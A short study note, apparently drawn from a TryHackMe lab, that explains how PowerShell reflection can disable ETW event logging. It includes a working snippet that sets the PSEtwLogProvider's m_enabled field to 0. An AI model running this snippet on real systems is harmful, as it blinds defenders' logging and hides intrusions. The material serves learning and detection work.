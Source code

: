 # ETW-Evasion PowerShell Reflection

Powershell Reflection is a [[Logging-And-Monitoring-Evasion]] technique. Within PowerShell, [[Event-Tracing-for-Windows]] (ETW) providers are loaded into the session from a .NET assembly: `PSEtwLogProvider`, most .NET assemblies are loaded in the same security context as the user at startup. [Microsoft documentation](https://docs.microsoft.com/en-us/dotnet/standard/assembly/), *"Assemblies form the fundamental units of deployment, version control, reuse, activation scoping, and security permissions for .NET-based applications."*

Reflection is as [O'Reilly](https://www.oreilly.com/library/view/professional-windows-powershell/9780471946939/9780471946939_using_.net_reflection.html): *"Reflection allows you to look inside an assembly and find out its characteristics. Inside a .NET assembly, information is stored that describes what the assembly contains. This is called metadata. A .NET assembly is, in a sense, self-describing, at least if interrogated correctly.*

By modifying the assembly fields and values through PowerShell Reflection we can reflect an ETW event provider assembly and set field `m_enabled` to `$null`.

```powershell
# Obtain .NET assembly for `PSEtwLogProvider`
$logProvider = [Ref].Assembly.GetType('System.Management.Automation.Tracing.PSEtwLogProvider')
# Store a null value for `etwProvider` field
$etwProvider = $logProvider.GetField('etwProvider','NonPublic,Static').GetValue($null)
# Set the field `m_enabled` to a previously stored value
[System.Diagnostics.Eventing.EventProvider].GetField('m_enabled','NonPublic,Instance').SetValue($etwProvider,0);
```
 

## References

[THM Evading Logging and Monitoring Room](https://tryhackme.com/room/monitoringevasion)
[Microsoft documentation](https://docs.microsoft.com/en-us/dotnet/standard/assembly/)